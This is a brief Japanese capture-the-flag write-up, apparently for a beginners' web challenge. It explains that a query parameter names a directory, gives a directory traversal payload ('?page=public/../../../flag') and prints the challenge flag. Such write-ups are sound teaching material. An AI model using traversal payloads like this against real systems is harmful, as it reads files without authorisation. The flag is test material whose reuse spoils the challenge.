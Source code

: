 ## Write-Up
クエリでディレクトを指定している要なので、ディレクトリトラバーサルの脆弱性を突く
```
?page=public/../../../flag
```

## Flag
ctf4b{omisoshiru_oishi_keredomo_tsukuruno_taihen}
